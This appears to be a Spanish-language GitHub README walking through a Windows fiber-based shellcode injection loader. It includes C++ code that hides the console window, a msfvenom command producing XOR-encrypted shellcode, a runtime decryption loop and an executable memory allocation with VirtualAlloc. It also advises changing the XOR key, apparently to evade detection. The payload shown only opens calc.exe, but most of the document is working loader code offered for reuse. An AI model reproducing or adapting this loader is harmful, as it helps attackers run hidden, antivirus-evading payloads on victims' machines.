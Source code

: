 ```cpp
    	fiber_injection();
    	KillTimer(NULL, idEvent);
  	});

  	MSG msg;
  	while (GetMessage(&msg, NULL, 0, 0)){	
    	TranslateMessage(&msg);
    	DispatchMessage(&msg);
  	}
}

int main(){
	
	HWND ventana_cmd = GetConsoleWindow();
	ShowWindow(ventana_cmd, SW_HIDE);

	LPVOID main_fiber = ConvertThreadToFiber(NULL);
  	LPVOID shellcode_fiber = CreateFiber(NULL, shellcode_routine, NULL);
  	SwitchToFiber(shellcode_fiber);
  	SwitchToFiber(main_fiber);

  	return 0;
}
```

## Funcion fiber_injection()

- Dentro de la funcion ```fiber_injection()``` tenemos la definicion de nuestra shellcode, esa shellcode fue generada con msfvenom usando crifrado XOR la cual ejecuta el comando ```calc.exe```: ```msfvenom -p windows/x64/exec CMD=calc.exe -f c --encrypt xor --encrypt-key z```.

(te recomiendo cambiar la clave del cifrado XOR)

- Posteriormente para poder inyectar la shellcode, la debemos de decifrar en tiempo de ejecucion usando la operacion ```XOR``` con la clave de cifrado, y para eso usamos este for:

```cpp
for (int i = 0; i < sizeof(shellcode); i++){
	shellcode[i] = (byte)(shellcode[i] ^ (byte)'z');
}
```

- Usando ```unsigned int shellcode_len = sizeof(shellcode);``` le estamos diciendo que obtenga el tamaño total en bytes de la shellcode

- Despues necesitamos asignar memoria para nuestra shellcode, para esto usamos ```VirtualAlloc```:

```cpp
exec_mem = VirtualAlloc(
	    NULL,
	    shellcode_len,
	    MEM_COMMIT,
	    PAGE_EXECUTE_READWRITE
);
```
El primer parametro de la direccion de memoria donde se va a asignar, y le puse NULL para que el sistema operativo lo haga, el segundo parametro es el tamaño en bytes que se van a asignar, y le pase la variable que tiene el tamaño, el tercero es el tipo de asignacion y le puse ```MEM_COMMIT``` para que inicialmente la asignacion contenga puros ceros, y el ultimo argumento son las protecciones de memoria que tendra esa asignacion, y le puse que tenga permisos de ejecucion, escritura, y lectura
